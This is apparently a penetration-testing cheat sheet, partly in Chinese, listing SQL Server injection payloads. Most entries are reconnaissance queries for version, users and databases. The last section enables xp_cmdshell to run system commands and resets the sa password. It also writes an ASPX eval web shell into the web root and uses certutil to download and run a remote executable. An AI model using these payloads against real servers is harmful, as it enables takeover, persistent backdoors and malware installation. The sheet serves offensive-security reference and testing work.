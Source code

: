 SQL Server Payload
=====================================

- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Current User
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- List User
    - ``SELECT name FROM master..syslogins``
- Current Database
    - ``SELECT DB_NAME()``
- List Database
    - ``SELECT name FROM master..sysdatabases``
- 命令执行
	- 前提：sa权限
		::
		
			select is_srvrolemember('sysadmin')
			select is_member('db_owner')
			select is_srvrolemember('public')
	- ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- 写入文件
	+ xp_cmdshell
		::
		
			开启xp_cmdshell过程:
			exec sp_configure 'show advanced options', 1;   //开启高级选项
			RECONFIGURE; 									//配置生效
			exec sp_configure'xp_cmdshell', 1; 				//开启xp_cmdshell
			RECONFIGURE; 									//配置生效
			查看xp_cmdshell状态：exec sp_configure
			执行命令：exec master..xp_cmdshell 'whoami';
			写入webshell：exec master..xp_cmdshell 'echo  ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\233.aspx'
			# 下载恶意程序
			exec master.dbo.xp_cmdshell 'cd c:\\www & certutil -urlcache -split -f http://ip/file.exe';
			执行程序
			exec master.dbo.xp_cmdshell 'cd c:\\www & file.exe';


